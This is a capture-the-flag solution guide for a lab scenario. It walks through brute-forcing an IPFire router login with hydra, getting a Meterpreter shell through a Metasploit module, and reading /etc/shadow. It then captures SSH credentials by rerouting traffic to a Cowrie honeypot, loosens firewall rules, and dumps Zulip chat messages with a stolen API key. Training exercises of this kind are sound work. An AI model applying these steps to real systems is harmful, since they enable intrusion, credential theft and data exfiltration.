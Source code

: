 # Why is the R&D Always Gone?

_Solution Guide_

## Overview

This solution guide covers the walk-through and is organized by submission question.

Exploit the router (172.21.3.1) and manipulate it to gain access to the production network. Gain access to the filesystem and chat messages. Cowrie has been downloaded to your Kali system; however, minor configurations may be required.

- **Question 1:** Exploit the router; gain access to its underlying OS; alter the router to access the internal production subnet.
- **Question 2:** Gain access to the filesystem by capturing and using SSH credentials. 
- **Question 3:** Read the chat messages on the chat server.

## Question 1

_Gain access to the router's underlying OS. What username, besides root, is on this OS?_

Exploit the router, gain access to its underlying OS, and alter the router to gain access to the internal production subnet.

1. Log in to Kali and scan the router for top 1000 TCP ports.
```
sudo nmap -A 172.21.3.1
```

​	Only TCP/444 is open. Nmap states Apache httpd is running on this port. The SSL-cert shows ipfire (a router OS).

2. The lab doc states that standard usernames are used. Ensure you can see /media/cdrom0/wordlist.txt on the ISO. Feel free to copy it to a better working directory. A Google search shows 'admin' is the default username for ipfire. Crack these login creds with hydra with the following command, or use xhydra to help build the syntax.

```
hydra -s 444 -S -v -V -l admin -P /media/cdrom0/wordlist.txt -t 16 -m /cgi-bin/index.cgi 172.21.3.1 https-get
```
![Image 1](./img/image1.png)

3. This allows you to find the credentials. As a side note, all credentials used are next to each other (to ensure fair timing across all challenges). Ensure your username and password are correct by logging into https://172.21.3.1:444 with those credentials.

You now can alter the router/firewall. We must use this username and password to exploit ipfire and gain access to the OS, instead of just the WUI.

![Image 2](./img/image2.png)

4. Launch msfconsole. Run `search ipfire` and enter `use 0` (if exploit/linux/http/ipfire_pakfire_exec). This exploit matches our version number visible on the WUI.

![Image 3](./img/image3.png)

5. Run `show options`, `set password <passwordfoundpreviously>`, `set rhosts 172.21.3.1`, `set lhost <ip of Kali>`, `run`. This should give you a Meterpreter shell.

![Image 4](./img/image4.png)

6. On the meterpreter shell, run `cat /etc/shadow` to view the user, besides root, that has a password set. 

![Image 5](./img/image5.png)

This concludes Question 1. 

## Question 2 

_A username periodically logs into the SSH file system. What is this user's password?_

Gain access to the file server by capturing and using SSH credentials.

1. As stated in the lab doc, cowrie has been installed on Kali and minor configuration changes may be required. Run `cd ~/Desktop/cowrie`.

2. Run `bin/cowrie start`. Notice the "line 121: exec: twistd: not found" error? A quick Google search will show how to solve this on Kali. https://askubuntu.com/questions/1415462/bin-cowrie-line-121-exec-twistd-not-found.

![Image 6](./img/image6.png)

3. Open the bin/cowrie file with your favorite text editor, navigate to line 121 (as indicated by your error message), change twistd to twistd3, re-run bin/cowrie start.

![Image 7](./img/image7.png)

4. You should now be able to fire it off and only receive a few messages about cryptography deprecations as it runs cowrie in the background. Run `sudo ss -antp` to verify TCP/2222 is now open and being used by twistd3.

5. As stated by the cowrie docs found online, we must set a firewall rule to forward TCP/22 to TCP/2222. Run `sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 2222`.

6. We now have cowrie listening on TCP/2222 and all TCP/22 are being redirected to cowrie. We must now force the ipfire router to send all SSH packets that were intended for the filesystem (via SSH) to our Kali. Log in to ipfire via https://172.21.3.1:444 with the credentials found previously.

7. Click 'Status' > 'Connections' to find that 172.21.57.139 is the IP address of the file server (via SSH) as it is the only non-router IP with destination port 22.

![Image 8](./img/image8.png)

8. Click 'Network' > 'Static Routes'. Add Host IP Address as 172.21.57.139/32, Gateway as *IPv4 of kali*, and click 'Add'.

![Image 9](./img/image9.png)

9. All SSH packets destined for the file server should now be redirected to our cowrie. On Kali, run `tail -f ~/Desktop/cowrie/var/log/cowrie/cowrie.log`.

Within 1 minute, if everything is setup correctly, you should see an SSH attempt with a username and password. For example, you may see the first line that states 'login attempt' with a username and password such as b'gilberto'/b'191d2363fa87'.

![Image 10](./img/image10.png)

11. Click 'Network' > 'Static Routes'. Remove the static route on ipfire that you previously created.

12. Click 'Firewall' > 'Firewall Rules'. Change the #2 rule in "Firewall Rules" to Destination Standard Networks: Any and change Reject to ACCEPT. Click 'Update' and 'Apply changes'.

![Image 11](./img/image11.png)

13. Verify the credentials found in Step #10 work. On Kali, run `ssh <username>@172.21.57.139` and enter the password found. Keep this SSH connection open for the next task.

![Image 12](./img/image12.png)

This completes Question 2.

## Question 3

_Gain access to the chat server messages. What temperature must the vaccine be stored at?_

Read the chat messages on the chat server.

1. Scan the 172.21.57.0/24 network. Run `sudo nmap 172.21.57.0/24` to identify the host 172.21.57.100 is running TCP/80 and TCP/443.

2. Run `sudo nmap -A 172.21.57.100`. Notice this chat server is a Zulip server (as indicated by the http-title and other values).

3. Back on your previous SSH connection to the filesystem, run `find / -name "*zulip*"`. You will find a file called /etc/api/zulip.keys.

![Image 13](./img/image13.png)

4. Run `cat /etc/api/zulip.keys`. Copy this information to a file locally to use, if you'd like.

![Image 14](./img/image14.png)

5. Using this api documentation as a reference (), run the command `for i in {1..999}; do curl -ksSX GET -G https://172.21.57.100/api/v1/messages/$i -u backup-bot@172.21.57.100:<APIKEYGOESHERE> --data-urlencode apply_markdown=false; done`, to fetch single messages based on ID (as indicated by the zulip.keys file). 

![Image 15](./img/image15.png)

6. Read messages 35-39. You will find the temperature (e.g., 43.2) needed for the vaccine.

This completes Question 3.
